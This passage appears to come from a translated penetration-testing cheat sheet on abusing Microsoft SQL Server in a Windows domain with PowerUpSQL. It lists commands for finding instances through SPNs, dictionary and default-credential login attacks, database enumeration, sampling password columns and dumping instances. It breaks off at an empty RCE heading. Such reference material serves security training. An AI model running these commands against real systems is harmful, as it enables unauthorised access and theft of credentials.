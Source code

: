 ```bash
Get-SQLInstanceLocal | Get-SQLServerInfo

#Get info about valid MSQL instances running in domain
#This looks for SPNs that starts with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose

# Try dictionary attack to login
Invoke-SQLAuditWeakLoginPw

# Search SPNs of common software and try the default creds
Get-SQLServerDefaultLoginPw

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check conectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Get DBs, test connections and get info in oneliner
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
## MSSQL Basiese Misbruik

### Toegang tot DB
```bash
# List databases
Get-SQLInstanceDomain | Get-SQLDatabase

# List tables in a DB you can read
Get-SQLInstanceDomain | Get-SQLTable -DatabaseName DBName

# List columns in a table
Get-SQLInstanceDomain | Get-SQLColumn -DatabaseName DBName -TableName TableName

# Get some sample data from a column in a table (columns username & passwor din the example)
Get-SQLInstanceDomain | GetSQLColumnSampleData -Keywords "username,password" -Verbose -SampleSize 10

#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lot of CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```
### MSSQL RCE
